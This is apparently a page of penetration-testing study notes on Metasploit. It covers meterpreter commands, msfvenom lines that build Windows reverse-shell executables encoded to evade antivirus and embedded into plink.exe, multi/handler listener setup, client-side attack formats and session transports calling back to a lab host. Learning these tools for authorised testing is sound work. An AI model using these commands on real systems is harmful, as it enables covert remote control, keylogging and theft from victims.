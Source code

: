 	Situations where a staged payload is preferred over a non-staged payload are for example when the vulnerability we are exploiting does not provide enough buffer space to pass the full payload in one time or to avoid anti-virus detection
Meterpreter:
	Meterpeter is a multi-function payload that can be dynamically extended at runtime
	This means that a meterpreter shell offers, on top of the features of a standard shell, functionalities such as file transfer, key logging, etc.
	meterpreter > help
	meterpreter > sysinfo
	meterpreter > getuid
	meterpreter > upload sourcepathlocal destinationpathremote
	meterpreter > download sourcepathremote destinationpathlocal
	meterpreter > pwd
	meterpreter > ls
	meterpreter > cd
	meterpreter > shell (***this is a persistent shell, we can close it and respawn a new shell with meterpeter***)
	meterpreter > execute -f notepad
	meterpreter > ps
	meterpreter > kill
	meterpreter > exit
Executable payloads:
	Metasploit payloads can be exported into files with various extensions (i.e. .asp, .vbs, .jar, .war, .dll, .exe, ...)
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o shell_reverse.exe
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_encoded.exe
	Metasploit can also inject payloads into existing executables
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/plink.exe -o shell_reverse_encoded_embedded.exe
	Alternatively to msfvenom, we can generate the same payload-injected executables from within metasploit, with the generate command
Metasploit Exploit Multi Handler:
	We use the multi handler with the command: msf5 > use multi/handler
	The we set all the required options:  set options
	We then run the handler with the -j flag, which sends the listener in background and does not block the metasploit console while waiting for the victim to connect: msf5 > exploit -j
	We can check the background jobs with the jobs command: msf5 > jobs
Client-side attacks:
	Metasploit supports many executable formats that are particularly useful when implementing client-side attacks, for example hta-psh, vba and vba-psh
	We can review these formats with: msf5 > msfvenom  -l formats | head -n 35
	Metasploit also contains multimple browser exploits (i.e. using vulnerabilities in flash)
Advanced features and transports:
	One of these advanced features are advanced encoders for payloads:
		msf5 > use multi/handler
		msf5 > show advanced
		msf5 > set EnableStageEncoding true
		msf5 > set StageEncoder x86/shikata_ga_nai
	Autorun: the autorun options allows metasploit to execute an action when a meterpreter connection is established, especially useful during a client-side attack. For example, we can configure the windows enum_logged_on_users module to automatically enumerate logged in users when meterpreter connects:
		msf5 > set AutoRunScript windows/gather/enum_logged_on_users
		msf5 > exploit
	We can also temporarily exit the meterpreter shell, perform other tasks within the metasploit framework and then re-entrer the meterpeter session if needed:
		meterpreter > background
		msf5 > sessions -l
		msf5 > sessions -i X
	We can use meterpreter payload transports to switch protocol after the initial compromise:
		To list available transports for the current meterpreter session: meterpreter > transport list
		We can add a new transport protocol to the current meterpreter session with: meterpreter > add -t reverse_tcp -l 10.11.0.4 -p 5555